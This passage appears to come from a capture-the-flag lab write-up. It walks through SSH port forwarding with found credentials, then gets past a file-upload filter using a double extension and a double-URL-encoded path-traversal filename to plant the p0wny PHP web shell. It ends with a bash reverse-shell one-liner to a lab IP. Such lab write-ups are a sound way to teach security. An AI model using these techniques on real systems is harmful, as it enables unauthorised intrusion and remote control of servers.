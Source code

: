 ```terminal
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.76.96:68          0.0.0.0:*         
```

The port 80 is open.

The second file contains wilbur's credentials, we can use that to port forward the web server using ssh.

```terminal
ssh -L 8000:127.0.0.1:80 wilbur@10.10.76.96 -fN
```

Now we navigate to `http://127.0.0.1:8000`

![gallery](6.png)

Let's login using orville's credentials.

![logge](7.png)

We have a file upload here, let's upload a php reverse shell. I'll be using [p0wny's shell](https://github.com/flozz/p0wny-shell/blob/master/shell.php)

![upload](8.png)

There is a filter in place here.

After some trial and error on burp suite I managed to upload the shell with the name `p0wny.png.php`

![burp](9.png)

With this we know two things, the server is using a white list filter but it's checking what comes after the first dot. And the uploaded file are located in `/uploads` folder.

Requesting the file on `/uploads/p0wny.png.php` doesn't run it but downloads it.

We can do another path traversal here and try to upload it to the parent directory.

Using the name `%25%32%65%25%32%65%25%32%66p0wny.png.php` we succeed in uploading it to `../uploads`

`%25%32%65%25%32%65%25%32%66` is a double url encode of `../`

![burp](10.png)

Now we can navigate to `/p0nwy.png.php` and get the shell

![p0wny](11.png)

To get a reverse shell we run the following command:

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.9.1.8/9001 0>&1'
```

